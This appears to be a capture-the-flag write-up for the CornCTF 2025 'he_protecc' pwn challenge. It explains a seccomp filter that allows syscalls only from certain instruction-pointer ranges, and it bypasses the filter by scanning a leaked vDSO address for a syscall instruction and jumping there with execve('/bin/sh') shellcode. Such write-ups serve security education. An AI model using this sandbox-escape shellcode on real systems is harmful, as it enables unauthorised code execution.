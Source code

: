 Solved by: Ub1k
writeup by: Ub1k
# Introduction

This is the first pwn challange in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](./images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](./images/he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)`. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](./images/he_protecc-013.png)
## mmap my beloved

> [!note]
> **mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use `strace` and read the command from there:

![](./images/he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](./images/he_protecc-014.webp)

The `prctl` call sets the NO_NEW_PRIVS flag, why?  It is a security measure to stop privilege escalation put before a seccomp filter ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The syscall sets a seccomp filter (317 = sys_seccomp) on the binary.

> [!note]
> As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.

So the questions becomes: What does the seccomp filter filter?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but thats not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  No syscalls in the mmap region :( BUT WAIT

So what can we find after `0x500fff` but before `0x7fffffffffff`?

![](./images/he_protecc-015.webp)

Looking at the mappings with `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

> [!note]
> **vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](./images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle the problem one after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.

![](./images/he_protecc-017.webp)

## The Pwn

Now comes the difficult part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

Now let's scan the memory area:

```asm
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases r8 (pointer to vdso leak) and take two bytes, it then check if bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, r8 will point to a valid syscall instruction, and we can continue with setting the registers for a execve call.

```asm
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8
```

and boom, we have a shell.

